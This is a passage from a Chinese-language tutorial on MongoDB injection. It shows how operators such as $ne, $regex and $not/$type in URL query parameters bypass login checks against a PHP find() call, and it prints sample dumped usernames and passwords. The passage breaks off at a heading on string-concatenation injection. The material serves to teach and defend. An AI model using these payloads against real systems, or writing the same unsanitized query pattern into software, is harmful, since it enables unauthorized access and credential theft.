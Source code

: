 ```
?login=admin&password[$ne]=1 
```

当使用正则$regex 的时候，执行下列数据库语句，将会返回 name 中所有已 y 开头的数据

```
db.items.find({name: {$regex: "^y"}}) 
```

如果请求数据的脚本换为：

```
$cursor1 = $collection->find(array("login" => $user, "pass" => $pass));

```

返回结果的数据为：

```
echo 'id: '. $obj2['id'] .'<br>login: '. $obj2['login'] .'<br>pass: '. $obj2['pass'] . '<br>'; 

```

如果想要返回所有数据的话，可以访问下面的 url：

```
?login[$regex]=^&password[$regex]=^ 
```

返回结果将会是：

```
id: 1
login: Admin
pass: parol
id: 4
login: user2
pass: godloveman
id: 5
login: user3
pass: thepolice= 
```

还有一种利用$type 的方式：

```
?login[$not][$type]=1&password[$not][$type]=1 
```

官方这里有详细介绍$type 的各个值代表的意思：

[`cn.docs.mongodb.org/manual/reference/operator/query/type/`](http://cn.docs.mongodb.org/manual/reference/operator/query/type/)

上面语句表示获取 login 与 password 不为双精度类型的，同样会返回所有的数据。

### 3)INJECTION MongoDB

当执行的语句采用字符串拼接的时候，同样也存在注入的问题，如下代码：

